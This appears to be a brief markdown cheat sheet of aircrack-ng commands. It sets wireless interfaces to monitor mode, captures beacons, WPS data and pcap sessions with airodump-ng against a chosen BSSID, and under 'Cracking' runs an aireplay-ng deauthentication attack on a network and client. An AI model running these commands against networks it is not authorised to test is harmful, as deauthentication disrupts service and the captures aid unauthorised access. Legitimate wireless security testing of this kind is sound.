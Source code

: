 ## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan1
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --band bg wlan0
```

### Channel
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid CHANGEME --band bg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid CHANGEME --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write session0 \
            --bssid CHANGEME --channel 1 wlan0
```

## Cracking
```bash
iwconfig wlan1 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan1
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
